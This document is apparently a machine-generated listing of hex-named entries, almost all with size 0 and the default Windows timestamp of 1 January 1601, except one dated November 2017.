8915                    0 1/1/1601 12:00:00 AM
bfa9                    0 1/1/1601 12:00:00 AM
8042                    0 1/1/1601 12:00:00 AM
9c38                    0 1/1/1601 12:00:00 AM
9473                    0 1/1/1601 12:00:00 AM
a3bd                    0 1/1/1601 12:00:00 AM
a204                    0 1/1/1601 12:00:00 AM
8649                    0 1/1/1601 12:00:00 AM
91d9                    0 1/1/1601 12:00:00 AM
95ea                    0 1/1/1601 12:00:00 AM
b1df                    0 1/1/1601 12:00:00 AM
aa77                    0 1/1/1601 12:00:00 AM
8e38                    0 1/1/1601 12:00:00 AM
8733                    0 1/1/1601 12:00:00 AM
8272                    0 1/1/1601 12:00:00 AM
a095                    0 1/1/1601 12:00:00 AM
b997                    0 1/1/1601 12:00:00 AM
a365                    0 1/1/1601 12:00:00 AM
bab2                    0 1/1/1601 12:00:00 AM
87d6                    0 1/1/1601 12:00:00 AM
aa0f                    0 1/1/1601 12:00:00 AM
a417                    0 1/1/1601 12:00:00 AM
aaf6                    0 1/1/1601 12:00:00 AM
ba09                    0 1/1/1601 12:00:00 AM
ba92                    0 1/1/1601 12:00:00 AM
89b3                    0 1/1/1601 12:00:00 AM
93c5                    0 1/1/1601 12:00:00 AM
8916                    0 1/1/1601 12:00:00 AM
99b7                    0 1/1/1601 12:00:00 AM
a2b7                    0 1/1/1601 12:00:00 AM
af1f                    0 1/1/1601 12:00:00 AM
959c                    0 1/1/1601 12:00:00 AM
8cc6                    0 1/1/1601 12:00:00 AM
98ab                    0 1/1/1601 12:00:00 AM
a785                    0 1/1/1601 12:00:00 AM
9b1d                    0 1/1/1601 12:00:00 AM
a1f5                    0 1/1/1601 12:00:00 AM
ad70                    0 1/1/1601 12:00:00 AM
961b                    0 1/1/1601 12:00:00 AM
8da0                    0 1/1/1601 12:00:00 AM
8b49                    0 1/1/1601 12:00:00 AM
9f18                    0 1/1/1601 12:00:00 AM
ba33                    0 1/1/1601 12:00:00 AM
8be8                    0 1/1/1601 12:00:00 AM
99d9                    0 1/1/1601 12:00:00 AM
9db3                    0 1/1/1601 12:00:00 AM
8bbd                    0 1/1/1601 12:00:00 AM
86a0                    0 1/1/1601 12:00:00 AM
9e4e                    0 1/1/1601 12:00:00 AM
9ba7                    0 1/1/1601 12:00:00 AM
a183                    0 1/1/1601 12:00:00 AM
891e                    0 1/1/1601 12:00:00 AM
bb14                    0 1/1/1601 12:00:00 AM
8399                    0 1/1/1601 12:00:00 AM
9195                    0 1/1/1601 12:00:00 AM
88b9                    0 1/1/1601 12:00:00 AM
a212                    0 1/1/1601 12:00:00 AM
8d56                    0 1/1/1601 12:00:00 AM
9d35                    0 1/1/1601 12:00:00 AM
84bb                    0 1/1/1601 12:00:00 AM
aa13                    0 1/1/1601 12:00:00 AM
af77                    0 1/1/1601 12:00:00 AM
935a                    0 1/1/1601 12:00:00 AM
bb52                    0 1/1/1601 12:00:00 AM
b87b                    0 1/1/1601 12:00:00 AM
8a6c                    0 1/1/1601 12:00:00 AM
b071                    0 1/1/1601 12:00:00 AM
870e                    0 1/1/1601 12:00:00 AM
b125                    0 1/1/1601 12:00:00 AM
be46                    0 1/1/1601 12:00:00 AM
9821                    0 1/1/1601 12:00:00 AM
8998                    0 1/1/1601 12:00:00 AM
8473                    0 1/1/1601 12:00:00 AM
8bb4                    0 1/1/1601 12:00:00 AM
ba28                    0 1/1/1601 12:00:00 AM
926b                    0 1/1/1601 12:00:00 AM
9884                    0 1/1/1601 12:00:00 AM
8d92                    0 1/1/1601 12:00:00 AM
b70a                    0 1/1/1601 12:00:00 AM
9116                    0 1/1/1601 12:00:00 AM
af6d                    0 1/1/1601 12:00:00 AM
ade1                    0 1/1/1601 12:00:00 AM
995a                    0 1/1/1601 12:00:00 AM
873a                    0 1/1/1601 12:00:00 AM
9eb7                    0 1/1/1601 12:00:00 AM
8ffc                    0 1/1/1601 12:00:00 AM
a4e3                    0 1/1/1601 12:00:00 AM
95f2                    0 1/1/1601 12:00:00 AM
9129                    0 1/1/1601 12:00:00 AM
9827                    0 1/1/1601 12:00:00 AM
b992                    0 1/1/1601 12:00:00 AM
b737                    0 1/1/1601 12:00:00 AM
a124                    0 1/1/1601 12:00:00 AM
b89e                    0 1/1/1601 12:00:00 AM
9b47                    0 1/1/1601 12:00:00 AM
b7cc                    0 1/1/1601 12:00:00 AM
9eca                    0 1/1/1601 12:00:00 AM
8de0                    0 1/1/1601 12:00:00 AM
97de                    0 1/1/1601 12:00:00 AM
8635                    0 1/1/1601 12:00:00 AM
a8de                    0 1/1/1601 12:00:00 AM
b600                    0 1/1/1601 12:00:00 AM
b7d6                    0 1/1/1601 12:00:00 AM
857b                    0 1/1/1601 12:00:00 AM
b191                    0 1/1/1601 12:00:00 AM
b8fa                    0 1/1/1601 12:00:00 AM
a677                    0 1/1/1601 12:00:00 AM
a8c9                    0 1/1/1601 12:00:00 AM
b5d6                    0 1/1/1601 12:00:00 AM
bf02                    0 1/1/1601 12:00:00 AM
96e2                    0 1/1/1601 12:00:00 AM
9e39                    0 1/1/1601 12:00:00 AM
971c                    0 1/1/1601 12:00:00 AM
9113                    0 1/1/1601 12:00:00 AM
8519                    0 1/1/1601 12:00:00 AM
be93                    0 1/1/1601 12:00:00 AM
a0f2                    0 1/1/1601 12:00:00 AM
95a9                    0 1/1/1601 12:00:00 AM
9f36                    0 1/1/1601 12:00:00 AM
bfed                    0 1/1/1601 12:00:00 AM
9a83                    0 1/1/1601 12:00:00 AM
b26e                    0 1/1/1601 12:00:00 AM
82f5                    0 1/1/1601 12:00:00 AM
9486                    0 1/1/1601 12:00:00 AM
80e8                    0 1/1/1601 12:00:00 AM
8736                    0 1/1/1601 12:00:00 AM
9bb3                    0 1/1/1601 12:00:00 AM
b1c9                    0 1/1/1601 12:00:00 AM
9912                    0 1/1/1601 12:00:00 AM
b9cb                    0 1/1/1601 12:00:00 AM
9977                    0 1/1/1601 12:00:00 AM
a59e                    0 1/1/1601 12:00:00 AM
94a4                    0 1/1/1601 12:00:00 AM
aa83                    0 1/1/1601 12:00:00 AM
b790                    0 1/1/1601 12:00:00 AM
b2b4                    0 1/1/1601 12:00:00 AM
b4df                    0 1/1/1601 12:00:00 AM
9465                    0 1/1/1601 12:00:00 AM
a9f6                    0 1/1/1601 12:00:00 AM
99b4                    0 1/1/1601 12:00:00 AM
b6a4                    0 1/1/1601 12:00:00 AM
aa23                    0 1/1/1601 12:00:00 AM
a4ec                    0 1/1/1601 12:00:00 AM
9974                    0 1/1/1601 12:00:00 AM
af8a                    0 1/1/1601 12:00:00 AM
88e8                    0 1/1/1601 12:00:00 AM
95ba                    0 1/1/1601 12:00:00 AM
b786                    0 1/1/1601 12:00:00 AM
a6bd                    0 1/1/1601 12:00:00 AM
b734                    0 1/1/1601 12:00:00 AM
8dd7                    0 1/1/1601 12:00:00 AM
9547                    0 1/1/1601 12:00:00 AM
93d6                    0 1/1/1601 12:00:00 AM
80d2                    0 1/1/1601 12:00:00 AM
8f8c                    0 1/1/1601 12:00:00 AM
87ef                    0 1/1/1601 12:00:00 AM
9750                    0 1/1/1601 12:00:00 AM
9f59                    0 1/1/1601 12:00:00 AM
b846                    0 1/1/1601 12:00:00 AM
b3af                    0 1/1/1601 12:00:00 AM
af1e                    0 1/1/1601 12:00:00 AM
ab14                    0 1/1/1601 12:00:00 AM
88c8                    0 1/1/1601 12:00:00 AM
b9f9                    0 1/1/1601 12:00:00 AM
834d                    0 1/1/1601 12:00:00 AM
b747                    0 1/1/1601 12:00:00 AM
a1b0                    0 1/1/1601 12:00:00 AM
9a4a                    0 1/1/1601 12:00:00 AM
9a8c                    0 1/1/1601 12:00:00 AM
aa2d                    0 1/1/1601 12:00:00 AM
9f01                    0 1/1/1601 12:00:00 AM
a980                    0 1/1/1601 12:00:00 AM
8573                    0 1/1/1601 12:00:00 AM
a5cc                    0 1/1/1601 12:00:00 AM
8008                    0 1/1/1601 12:00:00 AM
b2a7                    0 1/1/1601 12:00:00 AM
b5f8                    0 1/1/1601 12:00:00 AM
a8ae                    0 1/1/1601 12:00:00 AM
98d5                    0 1/1/1601 12:00:00 AM
ae01                    0 1/1/1601 12:00:00 AM
9ac1                    0 1/1/1601 12:00:00 AM
951b                    0 1/1/1601 12:00:00 AM
b5cc                    0 1/1/1601 12:00:00 AM
97b7                    0 1/1/1601 12:00:00 AM
a02b                    0 1/1/1601 12:00:00 AM
be64                    0 1/1/1601 12:00:00 AM
a8bc                    0 1/1/1601 12:00:00 AM
9bfe                    0 1/1/1601 12:00:00 AM
80f4                    0 1/1/1601 12:00:00 AM
bf4d                    0 1/1/1601 12:00:00 AM
93c1                    0 1/1/1601 12:00:00 AM
8972                    0 1/1/1601 12:00:00 AM
8c60                    0 1/1/1601 12:00:00 AM
ab38                    0 1/1/1601 12:00:00 AM
85b5                    0 1/1/1601 12:00:00 AM
b3b7                    0 1/1/1601 12:00:00 AM
9bf1                    0 1/1/1601 12:00:00 AM
a8df                    0 1/1/1601 12:00:00 AM
a95d                    0 1/1/1601 12:00:00 AM
ae8e                    0 1/1/1601 12:00:00 AM
832d                    0 1/1/1601 12:00:00 AM
a264                    0 1/1/1601 12:00:00 AM
b77d                    0 1/1/1601 12:00:00 AM
94d9                    0 1/1/1601 12:00:00 AM
9737                    0 1/1/1601 12:00:00 AM
beae                    0 1/1/1601 12:00:00 AM
9b79                    0 1/1/1601 12:00:00 AM
b141                    0 1/1/1601 12:00:00 AM
83b9                    0 1/1/1601 12:00:00 AM
98fa                    0 1/1/1601 12:00:00 AM
be6f                    0 1/1/1601 12:00:00 AM
81c2                    0 1/1/1601 12:00:00 AM
a305                    0 1/1/1601 12:00:00 AM
84c5                    0 1/1/1601 12:00:00 AM
95dd                    0 1/1/1601 12:00:00 AM
a238                    0 1/1/1601 12:00:00 AM
9120                    0 1/1/1601 12:00:00 AM
8706                    0 1/1/1601 12:00:00 AM
b5ee                    0 1/1/1601 12:00:00 AM
94f8                    0 1/1/1601 12:00:00 AM
b15a                    0 1/1/1601 12:00:00 AM
adeb                    0 1/1/1601 12:00:00 AM
bded                    0 1/1/1601 12:00:00 AM
b2c2                    0 1/1/1601 12:00:00 AM
bbfe                    0 1/1/1601 12:00:00 AM
9fc0                    0 1/1/1601 12:00:00 AM
8a4c                    0 1/1/1601 12:00:00 AM
b4b2                    0 1/1/1601 12:00:00 AM
afc0                    0 1/1/1601 12:00:00 AM
9c2e                    0 1/1/1601 12:00:00 AM
805e                    0 1/1/1601 12:00:00 AM
9529                    0 1/1/1601 12:00:00 AM
80fe                    0 1/1/1601 12:00:00 AM
a371                    0 1/1/1601 12:00:00 AM
b69f                    0 1/1/1601 12:00:00 AM
85aa                    0 1/1/1601 12:00:00 AM
abb9                    0 1/1/1601 12:00:00 AM
b08c                    0 1/1/1601 12:00:00 AM
95a8                    0 1/1/1601 12:00:00 AM
a3a1                    0 1/1/1601 12:00:00 AM
84a0                    0 1/1/1601 12:00:00 AM
9cdd                    0 1/1/1601 12:00:00 AM
a965                    0 1/1/1601 12:00:00 AM
a3de                    0 1/1/1601 12:00:00 AM
a382                    0 1/1/1601 12:00:00 AM
8204                    0 1/1/1601 12:00:00 AM
b08d                    0 1/1/1601 12:00:00 AM
8c12                    0 1/1/1601 12:00:00 AM
966b                    0 1/1/1601 12:00:00 AM
bd27                    0 1/1/1601 12:00:00 AM
ba8b                    0 1/1/1601 12:00:00 AM
afec                    0 1/1/1601 12:00:00 AM
bedb                    0 1/1/1601 12:00:00 AM
8636                    0 1/1/1601 12:00:00 AM
b6c8                    0 1/1/1601 12:00:00 AM
a5a3                    0 1/1/1601 12:00:00 AM
9e66                    0 1/1/1601 12:00:00 AM
8d59                    0 1/1/1601 12:00:00 AM
8146                    0 1/1/1601 12:00:00 AM
8316                    0 1/1/1601 12:00:00 AM
a90e                    0 1/1/1601 12:00:00 AM
a69d                    0 1/1/1601 12:00:00 AM
a3a2                    0 1/1/1601 12:00:00 AM
918d                    0 1/1/1601 12:00:00 AM
a359                    0 1/1/1601 12:00:00 AM
bf78                    0 1/1/1601 12:00:00 AM
ae10                    0 1/1/1601 12:00:00 AM
b29f                    0 1/1/1601 12:00:00 AM
8f9a                    0 1/1/1601 12:00:00 AM
8da9                    0 1/1/1601 12:00:00 AM
a1ec                    0 1/1/1601 12:00:00 AM
b01f                    0 1/1/1601 12:00:00 AM
a44a                    0 1/1/1601 12:00:00 AM
89de                    0 1/1/1601 12:00:00 AM
abe1                    0 1/1/1601 12:00:00 AM
afb6                    0 1/1/1601 12:00:00 AM
af69                    0 1/1/1601 12:00:00 AM
8cde                    0 1/1/1601 12:00:00 AM
906d                    0 1/1/1601 12:00:00 AM
8fbf                    0 1/1/1601 12:00:00 AM
bd59                    0 1/1/1601 12:00:00 AM
8aca                    0 1/1/1601 12:00:00 AM
b4d0                    0 1/1/1601 12:00:00 AM
b005                    0 1/1/1601 12:00:00 AM
9498                    0 1/1/1601 12:00:00 AM
afd5                    0 1/1/1601 12:00:00 AM
9a02                    0 1/1/1601 12:00:00 AM
a493                    0 1/1/1601 12:00:00 AM
9c93                    0 1/1/1601 12:00:00 AM
95b7                    0 1/1/1601 12:00:00 AM
b19e                    0 1/1/1601 12:00:00 AM
8741                    0 1/1/1601 12:00:00 AM
a720                    0 1/1/1601 12:00:00 AM
a82c                    0 1/1/1601 12:00:00 AM
b861                    0 1/1/1601 12:00:00 AM
a4e6                    0 1/1/1601 12:00:00 AM
acad                    0 1/1/1601 12:00:00 AM
ac4b                    0 1/1/1601 12:00:00 AM
b0e6                    0 1/1/1601 12:00:00 AM
9271                    0 1/1/1601 12:00:00 AM
a31d                    0 1/1/1601 12:00:00 AM
b92e                    0 1/1/1601 12:00:00 AM
bab0                    0 1/1/1601 12:00:00 AM
b835                    0 1/1/1601 12:00:00 AM
9866                    0 1/1/1601 12:00:00 AM
b781                    0 1/1/1601 12:00:00 AM
885c                    0 1/1/1601 12:00:00 AM
bad7                    0 1/1/1601 12:00:00 AM
89b7                    0 1/1/1601 12:00:00 AM
96c3                    0 1/1/1601 12:00:00 AM
a113                    0 1/1/1601 12:00:00 AM
a19c                    0 1/1/1601 12:00:00 AM
b82e                    0 1/1/1601 12:00:00 AM
855c                    0 1/1/1601 12:00:00 AM
b9c5                    0 1/1/1601 12:00:00 AM
ade3                    0 1/1/1601 12:00:00 AM
8ead                    0 1/1/1601 12:00:00 AM
a911                    0 1/1/1601 12:00:00 AM
b05d                    0 1/1/1601 12:00:00 AM
a383                    0 1/1/1601 12:00:00 AM
9042                    0 1/1/1601 12:00:00 AM
b0b2                    0 1/1/1601 12:00:00 AM
8291                    0 1/1/1601 12:00:00 AM
bdb0                    0 1/1/1601 12:00:00 AM
aa4c                    0 1/1/1601 12:00:00 AM
82b4                    0 1/1/1601 12:00:00 AM
bd05                    0 1/1/1601 12:00:00 AM
b4ba                    0 1/1/1601 12:00:00 AM
84aa                    0 1/1/1601 12:00:00 AM
a101                    0 1/1/1601 12:00:00 AM
a251                    0 1/1/1601 12:00:00 AM
99f7                    0 1/1/1601 12:00:00 AM
9c17                    0 1/1/1601 12:00:00 AM
b6ca                    0 1/1/1601 12:00:00 AM
8858                    0 1/1/1601 12:00:00 AM
a6fa                    0 1/1/1601 12:00:00 AM
9bcd                    0 1/1/1601 12:00:00 AM
9dc5                    0 1/1/1601 12:00:00 AM
afd7                    0 1/1/1601 12:00:00 AM
9f5b                    0 1/1/1601 12:00:00 AM
b6c6                    0 1/1/1601 12:00:00 AM
9d0d                    0 1/1/1601 12:00:00 AM
bec5                    0 1/1/1601 12:00:00 AM
aa39                    0 1/1/1601 12:00:00 AM
89fc                    0 1/1/1601 12:00:00 AM
b58a                    0 1/1/1601 12:00:00 AM
8d76                    0 1/1/1601 12:00:00 AM
a29f                    0 1/1/1601 12:00:00 AM
9c6b                    0 1/1/1601 12:00:00 AM
bceb                    0 1/1/1601 12:00:00 AM
b8cb                    0 1/1/1601 12:00:00 AM
b2d5                    0 1/1/1601 12:00:00 AM
8d86                    0 1/1/1601 12:00:00 AM
826a                    0 1/1/1601 12:00:00 AM
acf7                    0 1/1/1601 12:00:00 AM
9532                    0 1/1/1601 12:00:00 AM
89d3                    0 1/1/1601 12:00:00 AM
984c                    0 1/1/1601 12:00:00 AM
8270                    0 1/1/1601 12:00:00 AM
bb46                    0 1/1/1601 12:00:00 AM
80a3                    0 1/1/1601 12:00:00 AM
a180                    0 1/1/1601 12:00:00 AM
bb2d                    0 1/1/1601 12:00:00 AM
8005                    0 1/1/1601 12:00:00 AM
b355                    0 1/1/1601 12:00:00 AM
ada7                    0 1/1/1601 12:00:00 AM
a8fc                    0 1/1/1601 12:00:00 AM
b09b                    0 1/1/1601 12:00:00 AM
a122                    0 1/1/1601 12:00:00 AM
b635                    0 1/1/1601 12:00:00 AM
afa8                    0 1/1/1601 12:00:00 AM
b270                    0 1/1/1601 12:00:00 AM
af0f                    0 1/1/1601 12:00:00 AM
9159                    0 1/1/1601 12:00:00 AM
93df                    0 1/1/1601 12:00:00 AM
a44d                    0 1/1/1601 12:00:00 AM
af36                    0 1/1/1601 12:00:00 AM
8dd9                    0 1/1/1601 12:00:00 AM
aa8a                    0 1/1/1601 12:00:00 AM
ab87                    0 1/1/1601 12:00:00 AM
89fb                    0 1/1/1601 12:00:00 AM
bd2e                    0 1/1/1601 12:00:00 AM
8139                    0 1/1/1601 12:00:00 AM
8c49                    0 1/1/1601 12:00:00 AM
83c3                    0 1/1/1601 12:00:00 AM
8907                    0 1/1/1601 12:00:00 AM
b02e                    0 1/1/1601 12:00:00 AM
aab6                    0 1/1/1601 12:00:00 AM
a5ca                    0 1/1/1601 12:00:00 AM
9a1d                    0 1/1/1601 12:00:00 AM
b9a3                    0 1/1/1601 12:00:00 AM
876c                    0 1/1/1601 12:00:00 AM
94ff                    0 1/1/1601 12:00:00 AM
a2c6                    0 1/1/1601 12:00:00 AM
9c91                    0 1/1/1601 12:00:00 AM
9531                    0 1/1/1601 12:00:00 AM
971a                    0 1/1/1601 12:00:00 AM
95fa                    0 1/1/1601 12:00:00 AM
905c                    0 1/1/1601 12:00:00 AM
991f                    0 1/1/1601 12:00:00 AM
aba8                    0 1/1/1601 12:00:00 AM
a770                    0 1/1/1601 12:00:00 AM
bfc0                    0 1/1/1601 12:00:00 AM
af4e                    0 1/1/1601 12:00:00 AM
b3e3                    0 1/1/1601 12:00:00 AM
8e4b                    0 1/1/1601 12:00:00 AM
bb9b                    0 1/1/1601 12:00:00 AM
bc00                    0 1/1/1601 12:00:00 AM
9122                    0 1/1/1601 12:00:00 AM
a482                    0 1/1/1601 12:00:00 AM
8b6f                    0 1/1/1601 12:00:00 AM
b01b                    0 1/1/1601 12:00:00 AM
b346                    0 1/1/1601 12:00:00 AM
b942                    0 1/1/1601 12:00:00 AM
bbc6                    0 1/1/1601 12:00:00 AM
a70f                    0 1/1/1601 12:00:00 AM
94ce                    0 1/1/1601 12:00:00 AM
a262                    0 1/1/1601 12:00:00 AM
8b06                    0 1/1/1601 12:00:00 AM
86bd                    0 1/1/1601 12:00:00 AM
8ea9                    0 1/1/1601 12:00:00 AM
8835                    0 1/1/1601 12:00:00 AM
8ce3                    0 1/1/1601 12:00:00 AM
a656                    0 1/1/1601 12:00:00 AM
b599                    0 1/1/1601 12:00:00 AM
9c08                    0 1/1/1601 12:00:00 AM
8495                    0 1/1/1601 12:00:00 AM
954d                    0 1/1/1601 12:00:00 AM
92b2                    0 1/1/1601 12:00:00 AM
bc17                    0 1/1/1601 12:00:00 AM
b157                    0 1/1/1601 12:00:00 AM
9cae                    0 1/1/1601 12:00:00 AM
8c31                    0 1/1/1601 12:00:00 AM
9269                    0 1/1/1601 12:00:00 AM
b965                    0 1/1/1601 12:00:00 AM
a3a4                    0 1/1/1601 12:00:00 AM
af80                    0 1/1/1601 12:00:00 AM
9b2a                    0 1/1/1601 12:00:00 AM
8365                    0 1/1/1601 12:00:00 AM
9acf                    0 1/1/1601 12:00:00 AM
b848                    0 1/1/1601 12:00:00 AM
9830                    0 1/1/1601 12:00:00 AM
9ef8                    0 1/1/1601 12:00:00 AM
b380                    0 1/1/1601 12:00:00 AM
adb4                    0 1/1/1601 12:00:00 AM
9c9a                    0 1/1/1601 12:00:00 AM
b524                    0 1/1/1601 12:00:00 AM
8c19                    0 1/1/1601 12:00:00 AM
b22f                    0 1/1/1601 12:00:00 AM
b57f                    0 1/1/1601 12:00:00 AM
b1db                    0 1/1/1601 12:00:00 AM
a6b7                    0 1/1/1601 12:00:00 AM
ae12                    0 1/1/1601 12:00:00 AM
b4c2                    0 1/1/1601 12:00:00 AM
9deb                    0 1/1/1601 12:00:00 AM
b9f4                    0 1/1/1601 12:00:00 AM
a6e8                    0 1/1/1601 12:00:00 AM
9b0a                    0 1/1/1601 12:00:00 AM
89b4                    0 1/1/1601 12:00:00 AM
887d                    0 1/1/1601 12:00:00 AM
aa3d                    0 1/1/1601 12:00:00 AM
a94c                    0 1/1/1601 12:00:00 AM
aefe                    0 1/1/1601 12:00:00 AM
bde8                    0 1/1/1601 12:00:00 AM
bda2                    0 1/1/1601 12:00:00 AM
ad0b                    0 1/1/1601 12:00:00 AM
b233                    0 1/1/1601 12:00:00 AM
9d99                    0 1/1/1601 12:00:00 AM
93c7                    0 1/1/1601 12:00:00 AM
9c8a                    0 1/1/1601 12:00:00 AM
9c86                    0 1/1/1601 12:00:00 AM
a87f                    0 1/1/1601 12:00:00 AM
ab91                    0 1/1/1601 12:00:00 AM
9c57                    0 1/1/1601 12:00:00 AM
997c                    0 1/1/1601 12:00:00 AM
8052                    0 1/1/1601 12:00:00 AM
8152                    0 1/1/1601 12:00:00 AM
9a51                    0 1/1/1601 12:00:00 AM
ba3b                    0 1/1/1601 12:00:00 AM
9900                    0 1/1/1601 12:00:00 AM
9a4b                    0 1/1/1601 12:00:00 AM
87dd                    0 1/1/1601 12:00:00 AM
a04b                    0 1/1/1601 12:00:00 AM
8fc8                    0 1/1/1601 12:00:00 AM
ad46                    0 1/1/1601 12:00:00 AM
ad81                    0 1/1/1601 12:00:00 AM
b107                    0 1/1/1601 12:00:00 AM
81f3                    0 1/1/1601 12:00:00 AM
acf3                    0 1/1/1601 12:00:00 AM
8026                    0 1/1/1601 12:00:00 AM
9ef6                    0 1/1/1601 12:00:00 AM
befa                    0 1/1/1601 12:00:00 AM
9334                    0 1/1/1601 12:00:00 AM
a00a                    0 1/1/1601 12:00:00 AM
b037                    0 1/1/1601 12:00:00 AM
9b38                    0 1/1/1601 12:00:00 AM
8b6d                    0 1/1/1601 12:00:00 AM
b78f                    0 1/1/1601 12:00:00 AM
8f0c                    0 1/1/1601 12:00:00 AM
86a1                    0 1/1/1601 12:00:00 AM
8350                    0 1/1/1601 12:00:00 AM
a200                    0 1/1/1601 12:00:00 AM
82a2                    0 1/1/1601 12:00:00 AM
bd39                    0 1/1/1601 12:00:00 AM
8feb                    0 1/1/1601 12:00:00 AM
934d                    0 1/1/1601 12:00:00 AM
afc5                    0 1/1/1601 12:00:00 AM
a18a                    0 1/1/1601 12:00:00 AM
b595                    0 1/1/1601 12:00:00 AM
af86                    0 1/1/1601 12:00:00 AM
9072                    0 1/1/1601 12:00:00 AM
adb8                    0 1/1/1601 12:00:00 AM
865e                    0 1/1/1601 12:00:00 AM
a7df                    0 1/1/1601 12:00:00 AM
b708                    0 1/1/1601 12:00:00 AM
b2ed                    0 1/1/1601 12:00:00 AM
9c4a                    0 1/1/1601 12:00:00 AM
a306                    0 1/1/1601 12:00:00 AM
adea                    0 1/1/1601 12:00:00 AM
9f1a                    0 1/1/1601 12:00:00 AM
b553                    0 1/1/1601 12:00:00 AM
9659                    0 1/1/1601 12:00:00 AM
8162                    0 1/1/1601 12:00:00 AM
a6f2                    0 1/1/1601 12:00:00 AM
93d9                    0 1/1/1601 12:00:00 AM
ae4d                    0 1/1/1601 12:00:00 AM
b26b                    0 1/1/1601 12:00:00 AM
b9de                    0 1/1/1601 12:00:00 AM
85ef                    0 1/1/1601 12:00:00 AM
9809                    0 1/1/1601 12:00:00 AM
b5f7                    0 1/1/1601 12:00:00 AM
8b41                    0 1/1/1601 12:00:00 AM
b732                    0 1/1/1601 12:00:00 AM
a761                    0 1/1/1601 12:00:00 AM
983e                    0 1/1/1601 12:00:00 AM
944f                    0 1/1/1601 12:00:00 AM
b4ec                    0 1/1/1601 12:00:00 AM
bbbb                    0 1/1/1601 12:00:00 AM
9ec0                    0 1/1/1601 12:00:00 AM
982a                    0 1/1/1601 12:00:00 AM
a63a                    0 1/1/1601 12:00:00 AM
a0ae                    0 1/1/1601 12:00:00 AM
a0b0                    0 1/1/1601 12:00:00 AM
b92b                    0 1/1/1601 12:00:00 AM
ba6b                    0 1/1/1601 12:00:00 AM
a070                    0 1/1/1601 12:00:00 AM
8fd4                    0 1/1/1601 12:00:00 AM
bf38                    0 1/1/1601 12:00:00 AM
a3dc                    0 1/1/1601 12:00:00 AM
92c0                    0 1/1/1601 12:00:00 AM
b1b3                    0 1/1/1601 12:00:00 AM
bf33                    0 1/1/1601 12:00:00 AM
a1d8                    0 1/1/1601 12:00:00 AM
8476                    0 1/1/1601 12:00:00 AM
8fe7                    0 1/1/1601 12:00:00 AM
9e29                    0 1/1/1601 12:00:00 AM
97dc                    0 1/1/1601 12:00:00 AM
9663                    0 1/1/1601 12:00:00 AM
a0c6                    0 1/1/1601 12:00:00 AM
b440                    0 1/1/1601 12:00:00 AM
9e89                    0 1/1/1601 12:00:00 AM
ac51                    0 1/1/1601 12:00:00 AM
b28b                    0 1/1/1601 12:00:00 AM
86c8                    0 1/1/1601 12:00:00 AM
bea9                    0 1/1/1601 12:00:00 AM
9677                    0 1/1/1601 12:00:00 AM
8f36                    0 1/1/1601 12:00:00 AM
8192                    0 1/1/1601 12:00:00 AM
af09                    0 1/1/1601 12:00:00 AM
a624                    0 1/1/1601 12:00:00 AM
b089                    0 1/1/1601 12:00:00 AM
87ff                    0 1/1/1601 12:00:00 AM
95b2                    0 1/1/1601 12:00:00 AM
a71f                    0 1/1/1601 12:00:00 AM
a15d                    0 1/1/1601 12:00:00 AM
9934                    0 1/1/1601 12:00:00 AM
a000                    0 1/1/1601 12:00:00 AM
afdd                    0 1/1/1601 12:00:00 AM
ba18                    0 1/1/1601 12:00:00 AM
b7c4                    0 1/1/1601 12:00:00 AM
8ca9                    0 1/1/1601 12:00:00 AM
a0fd                    0 1/1/1601 12:00:00 AM
a610                    0 1/1/1601 12:00:00 AM
a9a5                    0 1/1/1601 12:00:00 AM
a9ba                    0 1/1/1601 12:00:00 AM
bef9                    0 1/1/1601 12:00:00 AM
bdef                    0 1/1/1601 12:00:00 AM
a17b                    0 1/1/1601 12:00:00 AM
a8a5                    0 1/1/1601 12:00:00 AM
8c73                    0 1/1/1601 12:00:00 AM
b47d                    0 1/1/1601 12:00:00 AM
9cf3                    0 1/1/1601 12:00:00 AM
bb19                    0 1/1/1601 12:00:00 AM
b98f                    0 1/1/1601 12:00:00 AM
b53e                    0 1/1/1601 12:00:00 AM
a149                    0 1/1/1601 12:00:00 AM
a08e                    0 1/1/1601 12:00:00 AM
9768                    0 1/1/1601 12:00:00 AM
a66d                    0 1/1/1601 12:00:00 AM
a93a                    0 1/1/1601 12:00:00 AM
b507                    0 1/1/1601 12:00:00 AM
923a                    7 11/20/2017 8:07:26 PM
a754                    0 1/1/1601 12:00:00 AM
86f5                    0 1/1/1601 12:00:00 AM
9fab                    0 1/1/1601 12:00:00 AM
8265                    0 1/1/1601 12:00:00 AM
aeda                    0 1/1/1601 12:00:00 AM
955a                    0 1/1/1601 12:00:00 AM
a7a6                    0 1/1/1601 12:00:00 AM
a0c4                    0 1/1/1601 12:00:00 AM
b086                    0 1/1/1601 12:00:00 AM
9ef7                    0 1/1/1601 12:00:00 AM
b177                    0 1/1/1601 12:00:00 AM
a1bc                    0 1/1/1601 12:00:00 AM
9765                    0 1/1/1601 12:00:00 AM
9232                    0 1/1/1601 12:00:00 AM
b503                    0 1/1/1601 12:00:00 AM
bc84                    0 1/1/1601 12:00:00 AM
8079                    0 1/1/1601 12:00:00 AM
b7c6                    0 1/1/1601 12:00:00 AM
b462                    0 1/1/1601 12:00:00 AM
8439                    0 1/1/1601 12:00:00 AM
9f70                    0 1/1/1601 12:00:00 AM
b8c5                    0 1/1/1601 12:00:00 AM
abaa                    0 1/1/1601 12:00:00 AM
a4bf                    0 1/1/1601 12:00:00 AM
92a3                    0 1/1/1601 12:00:00 AM
b491                    0 1/1/1601 12:00:00 AM
874a                    0 1/1/1601 12:00:00 AM
a3b2                    0 1/1/1601 12:00:00 AM
88d9                    0 1/1/1601 12:00:00 AM
9a92                    0 1/1/1601 12:00:00 AM
ae04                    0 1/1/1601 12:00:00 AM
b436                    0 1/1/1601 12:00:00 AM
b71e                    0 1/1/1601 12:00:00 AM
ba11                    0 1/1/1601 12:00:00 AM
88ea                    0 1/1/1601 12:00:00 AM
8b13                    0 1/1/1601 12:00:00 AM
bbd7                    0 1/1/1601 12:00:00 AM
9420                    0 1/1/1601 12:00:00 AM
bee7                    0 1/1/1601 12:00:00 AM
82bb                    0 1/1/1601 12:00:00 AM
9e6d                    0 1/1/1601 12:00:00 AM
ad3c                    0 1/1/1601 12:00:00 AM
9ce3                    0 1/1/1601 12:00:00 AM
9247                    0 1/1/1601 12:00:00 AM
a83b                    0 1/1/1601 12:00:00 AM
b84b                    0 1/1/1601 12:00:00 AM
9796                    0 1/1/1601 12:00:00 AM
9ce6                    0 1/1/1601 12:00:00 AM
a36e                    0 1/1/1601 12:00:00 AM
8ac9                    0 1/1/1601 12:00:00 AM
88dd                    0 1/1/1601 12:00:00 AM
b24f                    0 1/1/1601 12:00:00 AM
